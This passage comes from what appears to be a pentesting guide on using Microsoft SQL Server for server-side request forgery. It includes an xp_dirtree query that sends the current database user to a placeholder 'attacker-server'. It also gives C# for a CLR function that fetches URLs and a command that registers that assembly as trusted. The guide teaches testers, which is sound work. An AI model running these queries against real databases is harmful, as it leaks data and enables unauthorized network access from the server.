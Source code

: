 ```
The `xp_dirtree` stored procedure, for instance, is used to make network requests, but it's limited to only TCP port 445. The port number isn't modifiable, but it allows reading from network shares. The usage is demonstrated in the SQL script below:

```sql
DECLARE @user varchar(100);
SELECT @user = (SELECT user);
EXEC ('master..xp_dirtree "\\' + @user + '.attacker-server\\aa"');
```
```
It's noteworthy that this method might not work on all system configurations, such as on `Microsoft SQL Server 2019 (RTM) - 15.0.2000.5 (X64)` running on a `Windows Server 2016 Datacenter` with default settings.

Additionally, there are alternative stored procedures like `master..xp_fileexist` and `xp_subdirs` that can achieve similar outcomes. Further details on `xp_fileexist` can be found in this [[https://social.technet.microsoft.com/wiki/contents/articles/40107.xp-fileexist-and-its-alternate.aspx|TechNet article]].

### `xp_cmdshell` 

Obviously you could also use **`xp_cmdshell`** to **execute** something that triggers a **SSRF**. For more info **read the relevant section** in the page:

[[../../network-services-pentesting/pentesting-mssql-microsoft-sql-server/]]

### MSSQL User Defined Function - SQLHttp 

Creating a CLR UDF (Common Language Runtime User Defined Function), which is code authored in any .NET language and compiled into a DLL, to be loaded within MSSQL for executing custom functions, is a process that requires `dbo` access. This means it is usually feasible only when the database connection is made as `sa` or with an Administrator role.

A Visual Studio project and installation instructions are provided in [[https://github.com/infiniteloopltd/SQLHttp|this Github repository]] to facilitate the loading of the binary into MSSQL as a CLR assembly, thereby enabling the execution of HTTP GET requests from within MSSQL.

The core of this functionality is encapsulated in the `http.cs` file, which employs the `WebClient` class to execute a GET request and retrieve content as illustrated below:

```csharp
using System.Data.SqlTypes;
using System.Net;

public partial class UserDefinedFunctions
{
    [Microsoft.SqlServer.Server.SqlFunction]
    public static SqlString http(SqlString url)
    {
        var wc = new WebClient();
        var html = wc.DownloadString(url.Value);
        return new SqlString(html);
    }
}
```
```
Before executing the `CREATE ASSEMBLY` SQL command, it is advised to run the following SQL snippet to add the SHA512 hash of the assembly to the server's list of trusted assemblies (viewable via `select * from sys.trusted_assemblies;`):

```sql
EXEC sp_add_trusted_assembly 0x35acf108139cdb825538daee61f8b6b07c29d03678a4f6b0a5dae41a2198cf64cefdb1346c38b537480eba426e5f892e8c8c13397d4066d4325bf587d09d0937,N'HttpDb, version=0.0.0.0, culture=neutral, publickeytoken=null, processorarchitecture=msil';
```